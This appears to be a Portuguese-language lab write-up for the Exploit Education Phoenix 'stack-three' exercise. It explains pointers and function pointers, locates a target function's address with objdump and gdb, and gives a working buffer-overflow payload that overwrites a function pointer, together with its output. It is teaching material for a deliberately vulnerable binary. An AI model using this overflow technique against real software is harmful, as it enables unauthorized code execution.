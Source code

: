 Index
1. [🎯 Objetivo](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-objetivo)
2. [💡 Dica](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-explicação)
3. [💫 Explicação](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-explicação)
4. [🔥 Solução](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/4%20-%20Stack%20Three.md#-solução)


# 🎯 Objetivo
Usar um pointer para retornar para uma função pre existente

# 💡 Dica
OBS: em Ingles! -> [Wikipedia Pointer](https://en.wikipedia.org/wiki/Pointer_(computer_programming))

# 💫 Explicação
  - O que raios são pointers
  - Function pointers
  - Exploit
  
### ↗️↘️ O que raios são pointers
> Pointers são uma estrutura que, ao invés de armazenar dados, armazena o endereço de outra estrutura.
Lembra do exemplo do poço? Que cada item tinha seu endereço na stack! Então, um pointer armazena esse endereço! :D

O pointer pode ser visto como uma placa na estrada, indicando que X cidade está em Y direção.

![Imagem da wikipedia mostrando um pointer](https://github.com/0xturazzi/Writeups/blob/master/ExploitEducation-Phoenix-PT-BR-%20%F0%9F%87%A7%F0%9F%87%B7/img/pointer.png)
Colunas: Nome da Variavel | Endereço | conteúdo

A variável "a" é um pointer que armazena a localização da variavel "b". Coloquialmente se diz que: "a" está apontando para "b" (seta vermelha).
> "a" armazena uma referencia á "b" !

> "a" pode ser des-referenciada, isto é: Seguir a direção que "a" aponta, para chegar no valor de "b" ! :D

Normalmente, o caractere "&" indica uma referência, e o caractere "*" desreferencia aquele pointer.

> Caso você tente desrefenciar um pointer que não aponta pra nada (NULL), o programa vai interromper a execução e soltar uma mensagem de erro!

### 🦀 Function Pointers
> Function pointers, ao envés de armazenar o endereço de uma variável, armazenam o endereço de uma função! :D

Sim! Funções também são armazenadas na Stack, e possuem seu endereço! Esse endereço pode ser encontrado por varios métodos:
```
objdump -d <programa> | grep <nome_da_função>


gdb <programa>
  (gdb)> info functions
```
Os dois metodos serão demonstrados em breve! :D

### 🔥 Exploit
> Buffer overflow, alterarando o valor de um function pointer, redirecionando a execução do programa.
> 
>Em lingua não nerd, por favor? :P
> 
> Escrever fora do valor do buffer. O valor que sera corrompido indica aonde a execução do programa esta indo. Se controlamos esse valor, controlamos aonde o programa vai!

#### 🛸 Analisando o programa
```
função complete_level() {   -> a função que a gente quer chamar
.......
}

função main() {
  criar buffer[64]
  criar fp -> um function pointer
  
  fp = NULL -> vai ser usado para checar se ele foi alterado,
                se continuar sendo NULL, quer dizer que esta intacto.
                
  
  gets(buffer) -> função INSEGURA para abrir um input, salva o valor no buffer
  
  if (fp) {    -> se fp foi alterado
    fp()   -> chama o endereço salvo em fp como se fosse uma função
  } else {
    print(valor nao alterado, tente novamente)
  }
  
  exit
}
```

Nós queremos chamar complete_level(), para isso, faremos fp salvar o seu endereço.

E nós já sabemos como exploitar um gets()! Então tá na hora do trabalho!

#### 🏠 Encontrando o endereço da função
```
objdump -d    -> Resumindo, printa pro terminal os objetos armazenados na Stack e seus endereços
                  ( O -d é pra ativar a disassembly: Converter de machine code para algo legivel )!
gdb
```

objdump
```
user@phoenix-amd64:~$ objdump -d /opt/phoenix/amd64/stack-three | grep complete_level
000000000040069d <complete_level>:
```

gdb
```
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-three                
---- Mensagens padrão foram removidas ----
(gdb) info functions 
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  printf@plt
0x00000000004004e0  gets@plt
0x00000000004004f0  puts@plt
0x0000000000400500  fflush@plt
0x0000000000400510  exit@plt
0x0000000000400520  __libc_start_main@plt
0x0000000000400530  _start
0x0000000000400546  _start_c
0x0000000000400570  deregister_tm_clones
0x00000000004005a0  register_tm_clones
0x00000000004005e0  __do_global_dtors_aux
0x0000000000400670  frame_dummy
0x000000000040069d  complete_level              -> Mesmo endereço
0x00000000004006b5  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

> O endereço da função é 0x000000000040069d ! :D
Presta atenção na quantidade de null bytes que precedem o endereço. Todo pointer começa com pelo menos dois null bytes, 
e strings terminam com null byte!
Impedindo atacantes (nós), de definir um pointer novo. Nós precisamos usar um que já esta na memoria! (  Spoiler hehehehe :D  )

Como nesse desafio o pointer ja definido e nós só vamos dar um valor para ele, não precisamos nos preocupar com isso,
 dado que os zeros que ficam na stack quando ela esta vazia completarão o endereço pra gente!

#### 😐 Cansei de teoria eu quero exploit

Se você quer tentar por conta propria, agora é sua hora de brilhar!
```
Lembretes: Little Endian, o buffer tem 64 bytes, b"\x", o input vem pelo gets(), python > python3
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
.
eai, brilhou? ;)
```

b"A"*64     # encher o buffer

b"\x9d\x06\x40" # 0x40069d vira "9d 06 40" em LE


Espero que você tenha gostado! :D

# 🔥 Solução
```
user@phoenix-amd64:~$ python -c "print(b'A'*64 + b'\x9d\x06\x40')" | /opt/phoenix/amd64/stack-three 
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
